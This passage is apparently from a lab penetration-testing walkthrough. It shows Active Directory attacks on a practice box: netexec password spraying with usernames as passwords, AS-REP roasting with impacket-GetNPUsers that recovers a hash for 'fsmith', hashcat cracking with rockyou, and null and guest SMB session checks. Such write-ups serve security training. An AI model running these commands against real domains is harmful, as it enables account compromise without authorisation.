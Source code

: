 
#### Trying Usernames as Passwords: {#trying-usernames-as-passwords}

-   **I always try usernames as passwords as well**:
    -   `netexec smb $box -u Users.txt -p Users.txt --shares --continue-on-success | grep [+]`
    -   No hits.


#### ASREPRoasting: {#asreproasting}


##### Using netexec for ASReproasting: {#using-netexec-for-asreproasting}

-   **We should always try and asreproast with a null/guest session anyway**
    -   `netexec ldap $box -u '' -p '' --asreproast asrep.txt`
    -   `netexec ldap $box -u guest -p '' --asreproast asrep.txt`
    -   We get no hits.


##### Using Impacket-GetNPUsers for asreproasting: {#using-impacket-getnpusers-for-asreproasting}

-   As we have some usernames we can try targeted asreproasting.
-   `impacket-GetNPUsers $domain/ -dc-ip $box -no-pass -usersfile Users.txt -format hashcat -outputfile asrep.txt`
-   {{< figure src="/ox-hugo/2024-11-03-101732_.png" >}}
-   We get a hit for `fsmith`


### Cracking fsmiths asrep hash using hashcat: {#cracking-fsmiths-asrep-hash-using-hashcat}

-   **I use hashcat to crack the ticket**:
    -   `hashcat -m 18200 asrep.txt /home/kali/Wordlists/rockyou.txt`
    -   {{< figure src="/ox-hugo/2024-11-03-102339_.png" >}}


### SMB `445`: {#smb-445}

-   +Important note on methodology+: If you're wondering why I am still enumerating for null sessions, web, etc when I have cracked a hash, it's because there could still be some interesting findings and low-hanging fruit. Boxes are great as they train us and help us hone our skills, but businesses want all findings not just the most serious. It's good practice to treat boxes like an engagement. I you want to jump ahead, go to the foothold section.


#### Attempting to connect with NULL &amp; Guest sessions: {#attempting-to-connect-with-null-and-guest-sessions}

-   **This is a standard check I always try as alot of the time the guest account or null sessions can lead to a foothold**:
    -   `netexec smb $box -u 'guest' -p '' --shares`
        -   {{< figure src="/ox-hugo/2024-11-03-085130_.png" >}}
        -   Guest account is disabled.
    -   `netexec smb $box -u '' -p '' --shares`
        -   {{< figure src="/ox-hugo/2024-11-03-085157_.png" >}}
        -   Null session has been disabled:

